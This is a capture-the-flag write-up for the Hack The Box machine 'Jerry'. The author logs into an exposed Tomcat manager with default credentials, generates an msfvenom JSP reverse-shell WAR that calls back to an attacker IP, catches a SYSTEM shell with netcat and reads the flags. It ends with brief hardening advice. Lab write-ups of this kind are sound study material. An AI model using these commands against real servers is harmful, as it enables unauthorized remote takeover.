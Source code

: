 # Jerry

```
kali@kali:~/htb/Jerry$ sudo nmap -sV -sC 10.129.90.141
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-31 20:13 EST
Nmap scan report for 10.129.90.141
Host is up (0.027s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.91 seconds
kali@kali:~/htb/Jerry$
```

We are greeted by an Apache Tomcat/7.0.88 post-install page.

```
Managing Tomcat

For security, access to the manager webapp is restricted. Users are defined in:

$CATALINA_HOME/conf/tomcat-users.xml

In Tomcat 7.0 access to the manager application is split between different users.   Read more...
```

The manager webapp is http://10.129.90.141:8080/manager/html 

After failing the login we are redirected and get this message:

```
401 Unauthorized

You are not authorized to view this page. If you have not changed any configuration files, please examine the file conf/tomcat-users.xml in your installation. That file must contain the credentials to let you use this webapp.

For example, to add the manager-gui role to a user named tomcat with a password of s3cret, add the following to the config file listed above.

<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>
```
And I try tomcat:s3cret, and it works.

We get an admin panel.

```
Deploy
Deploy directory or WAR file located on server
```

Ok, so let’s google WAR reverse shell:

https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/ 

And here we see we can create a war file with metasploit:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.69 LPORT=1337 -f war > shell.war
```

And then we upload this shell via the panel, and set up our listener:

```
kali@kali:~/htb/Jerry$ sudo rlwrap nc -nlvp 1337
[sudo] password for kali:
Listening on 0.0.0.0 1337
Connection received on 10.129.90.141 49194
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```

When we open the new page, we get the connection.

Already root.

The flags are located in “C:\Users\Administrator\Desktop\flags” 

And in the text file: `2 for the price of 1.txt`

To view this, we can simply use quotation marks around the file name:

```
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0fxxxxxxxxxxxxxxxxxxxxxxx

root.txt
04a8b36e154xxxxxxxxxxxxxxxxxxxxxxx
C:\Users\Administrator\Desktop\flags>
```

## Comparing myself to the official writeup:

The official writeup used a brute-force script to find the credentials. 

And make-war.sh to create the WAR file.

## How to stop this exploit:

Don’t use default credentials. Don’t run the webserver on root.
